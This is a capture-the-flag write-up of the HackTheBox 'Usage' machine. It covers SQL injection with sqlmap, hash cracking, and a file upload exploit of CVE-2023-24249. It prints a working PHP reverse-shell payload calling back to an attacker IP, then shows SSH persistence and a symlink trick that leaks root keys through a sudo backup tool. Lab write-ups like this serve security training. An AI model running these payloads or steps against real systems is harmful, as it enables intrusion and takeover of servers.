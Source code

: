 <p style="text-align: center"><a href = "Projects/index"><img src= "https://img.shields.io/badge/Projects-teal?style=for-the-badge"></a><a href="https://gafabic.github.io"><img src="https://img.shields.io/badge/Home-green?style=for-the-badge"></a><a href = "Writeups/index"><img src = "https://img.shields.io/badge/Writeups-teal?style=for-the-badge"></a></p>

# HackTheBox - Usage
---

## Initial Enumeration

After starting the machine, we are provided with an IP of **10.10.11.18**.

An initial scan `(nmap -p- -Pn --disable-arp-ping --min-rate 300 --stats-every=5s 10.10.11.18)` reveals open ports 22 and 80. A follow-up scan to further enumerate `(sudo nmap -O -sV -p 22,80 10.10.11.18)` provides the following details:

![](img/Usage1.png)

Further research provides no known vulnerabilities for either of these services, nor kernel exploits for the OS.

Attempting to view the web service gets an error, but provides us with the domain of **usage.htb** – adding this to our **/etc/hosts** file enables us to view the following on the web service:

![](img/Usage2.png)

Further fingerprinting on the webservice using _whatweb_ as well as looking through the page source provides the following information:

![](img/Usage3.png)

Unable to find any known vulnerabilities for this technology stack, we take a look at the functionality of the rest of the webpage. Initially we check each field for SQLi in each field in the login fields using a variety of payloads ([very useful set of payloads found here](https://github.com/payloadbox/sql-injection-payload-list)), and find nothing.

Checking for SQLi under the password reset link, however, nets us the following:

![](img/Usage4.png)

Here, we have evidence that the email field in the POST request to **/forget-password** is vulnerable to a blind, time-based SQLi attack. This will prove to be considerably harmful to data confidentiality.

---
## Initial Compromise

We use our browser proxy to save an intercepted POST request, and use it to run an attack using sqlmap `(sqlmap -r ForgotPasswordPOST -p email –level=5)`. This discovers that a time-based blind injection with an eight-clause UNION query is able to enumerate database information. Doing so, we are able to enumerate the entire database. Of particular note is the following, from the **usage_blog.admin_users** table:

![](img/Usage5.png)

We can crack this hash with _johntheripper_ and the _rockyou.txt_ wordlist, getting us the password **whatever1**.

We would not have been able to crack this without significant time and compute resources had a better password policy been enforced.

This allows us to login to the admin dashboard using the **admin** username. From that dashboard, we are presented with a good deal of new information about the technology stack used in this website:

![](img/Usage6.png)

After some investigation, we come across [CVE-2023-24249](https://flyd.uk/post/cve-2023-24249/) related to the **encore/laravel-admin** package, indicating that we can arbitrarily upload php scripts to the server to attain arbitrary code execution.

We create the following script to give us a remote shell:
```html
<html>
	<body>
		<?PHP system('php -r \'$sock=fsockopen(“10.10.14.11”,1337);exec(“sh <&3 >&3 2>&3”);\''); ?>
	</body>
</html>
```

We save this script with a .jpg extension and then attempt to upload it via the admin area's user avatar upload interface. Capturing this request, we permit it to run, then replay it, adding a “.php” to the end of the file.

![](img/Usage7.png)

Refreshing the upload interface, we now can see that our script has been uploaded.

![](img/Usage8.png)


We now start a netcat listener on our machine `(nc -lvnp 1337)`. By clicking the download link (or navigating to **/uploads/images/script.jpg.php**), we execute our script and can see that we have gained a reverse shell.

![](img/Usage9.png)

Now that we have remote access with the user **dash**, we stabilize our access and gain persistence by adding our public ssh key to the user's **/home/user/.sh/authorized_keys** file. We can now log in to the server as dash with full terminal functionality whenever we like.

---
## Privilege Escalation

Further enumeration shows that there is another user on this machine, **xander**. By sifting through log and configuration files, we find a number of passwords written in plaintext. It is with the password **3nc0d3d_pa$$w0rd** found in **/home/dash/.monitrc** that we are able to log in as xander.


Doing a little bit of investigation into the xander user reveals that, unlike dash, xander has limited access to sudo:

![](img/Usage10.png)

Naturally, anything that we can execute as a superuser merits further investigation. Running the command (without sudo rights, to limit possible damage caused by executing an unknown binary) nets us the following:

![](img/Usage11.png)

We have selected to use the **Project Backup** option as there is nothing in the MySQL database that we do not already have access to, nor do we want to necessarily reset the admin password just yet and possibly cause undo interference with the normal administration of the machine.

The backup option does seem to attempt to create a zip file in **/var/backups**. If running it requires superuser permissions, it is possible some interesting files may end up in that backup. We run the backup again, this time with sudo functionality. We go to the backup, unzip it, and investigate. We do not have permissions to write in the folder where it was made, so we will copy it to xander's home directory and unzip there. When unzipped, we find backups of the contents of **/var/www/html/**. We already had full read/write access to these files as dash. However, since this backup was made with superuser functionality, this gives us an opportunity.

As dash, we go to the **/var/www/html/** directory and, in it, create a symlink to **/root/**. Then, logged back into xander, we run the project backup once again. This time, when unzipped, the project backup contains the contents of the **/root/** folder, complete with .ssh folder, which contains the root user's public and private keys.

![](img/Usage12.png)

From here, we can use the keys to log in to root via ssh from out attacking machine, providing complete control over the server.

![](img/Usage13.png)